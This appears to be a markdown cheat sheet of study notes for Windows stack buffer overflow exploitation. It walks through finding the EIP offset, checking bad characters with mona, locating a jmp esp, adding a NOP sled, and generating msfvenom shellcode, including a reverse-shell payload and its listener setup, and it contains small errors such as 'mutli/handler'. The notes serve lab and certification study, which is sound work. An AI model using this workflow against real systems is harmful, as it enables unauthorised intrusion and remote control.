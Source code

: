 ### Buffer overflow overview
  1. Trigger bug by sending lots of A's down the wire.
  2. Expect a crash at `0x41414141`

### Discover Offsets
  1. `pattern_create.rb` --> send to overflow buffer string
    * Max of 20280 chars in length
  3. `!mona findmsp` || `pattern_offset.rb`

### Test Offsets
  1. send `("A" * offset) + "BBBB" + "CCCC"`
      * `EIP` should land on `"BBBB" `

### Discover bad characters
1. `!mona config -set workingfolder C:\logs\%p`
2. `!mona bytearray -cpb "\x00\x0a"`
    * generate byte array without bad characters
3. `!mona cmp -f c:\logs\program\bytearray.bin -a <start_addr>`
    * verify by sending a byte array without the bad chars
4. `msfvenom ... -b '\x00\x0a' `
    * generate shellcode without bad chars

### Find place to put shellcode
* overwrite EIP (saved return pointer) with a jmp address 
  * `ret` in exploit script
* !mona jmp -r esp -cbp "\x00\x0a"
  * ESP is usually after saved return pointer overwrite
  * remember to put memory location in little endian
    * `ret = struct.pack('<L', esp)` - python conversion

### Test for execution
* use INT3 breakpoint `\xcc` in place of shellcode to test for exec
  * debugger should stop here

### Try to pop calc
* Generate shellcode
* https://www.offensive-security.com/metasploit-unleashed/binary-payloads/ - msfvenom syntax
  * `msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b '\x00\x0a' -f python`

### NOP sled
* shellcode may need a bigger target to hit
  * `\x90`
  * `\x83\xec\x10`
    * sub eax,0x10
      * uses less buffer space
`* msfvenom ... -n 16`
  * use msfvenom to auto generate a nop sled

### Generate Shellcode for a reverse shell
* `msfvenom -a x86 -p windows/shell_reverse_tcp -b '\x00\x0a' -f python`
* `windows/shell/reverse_tcp` uses meterpreter multi-stage handler, must use `msfconsole` to connect
  
  
    use mutli/handler
    set payload windows/shell/reverse_tcp
    exploit
    

* regular `nc -nvlp` reverse shell
  * `windows/shell_reverse_tcp`


### Misc Notes
* sometimes you need to send `\n` and/or `\r` after the payload so the vuln program will parse it 
* use `mona.py`, `immunity debugger`
  * other programs that may be helpful
    * `gdb`
    * `radare2`
    * `hopper`
    * `ida pro` 
